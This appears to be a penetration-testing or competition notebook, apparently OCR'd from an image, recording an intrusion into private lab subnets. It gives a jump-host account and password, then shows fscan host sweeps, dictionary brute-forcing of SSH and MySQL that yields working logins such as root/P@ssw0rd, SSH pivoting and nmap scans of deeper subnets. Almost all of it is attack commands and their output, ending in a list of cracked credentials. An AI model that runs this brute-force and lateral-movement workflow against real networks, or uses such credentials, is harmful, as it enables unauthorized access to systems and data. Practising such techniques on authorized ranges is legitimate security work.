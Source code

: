 跳板机IP
172.19.0.2
team27
mUFtIr3BJuNXs7zMv#M(

./fscan -h 172.19.0.0/24

(icmp) Target 172.19.0.2      is alive
(icmp) Target 172.19.0.1      is alive

DMZ 172.24.100.0/24
./fscan -h 172.24.100.0/24

start ping
(icmp) Target 172.24.100.1    is alive
(icmp) Target 172.24.100.24   is alive
(icmp) Target 172.24.100.18   is alive
(icmp) Target 172.24.100.155  is alive
[*] Icmp alive hosts len is: 4

./fscan -h 172.24.100.0/24 -userf ./dictionary/username-top10.txt -pwdf ./dictionary/passwd-histoty.txt
[+] SSH 172.24.100.18:22:ubuntu 123456
[+] SSH 172.24.100.24:22:user password
[+] SSH 172.24.100.155:22:ubuntu ubuntu

ssh ubuntu@172.24.100.18
nmap -sn 172.25.0.0/24
172.25.0.1


ssh user@172.24.100.24
nmap -sn 172.25.18.0/24

ssh ubuntu@172.24.100.155
./fscan -h 192.168.85.0/24 -pwdf passwords.txt -userf username.txt
start ping
(icmp) Target 192.168.85.1    is alive
(icmp) Target 192.168.85.36   is alive
(icmp) Target 192.168.85.129  is alive
(icmp) Target 192.168.85.201  is alive
[*] Icmp alive hosts len is: 4

[+] SSH 192.168.85.129:22:ubuntu 1qaz2wsx
[+] mysql 192.168.85.201:3306:root P@ssw0rd

ping -c 1 -t 1 172.24.100.18
ping -c 1 172.24.100.18

爆破结果：
[+] SSH 172.24.100.18:22:ubuntu 123456
[+] SSH 172.24.100.24:22:user password
[+] SSH 172.24.100.155:22:ubuntu ubuntu
[+] SSH 192.168.85.129:22:ubuntu 1qaz2wsx
[+] mysql 192.168.85.201:3306:root P@ssw0rd
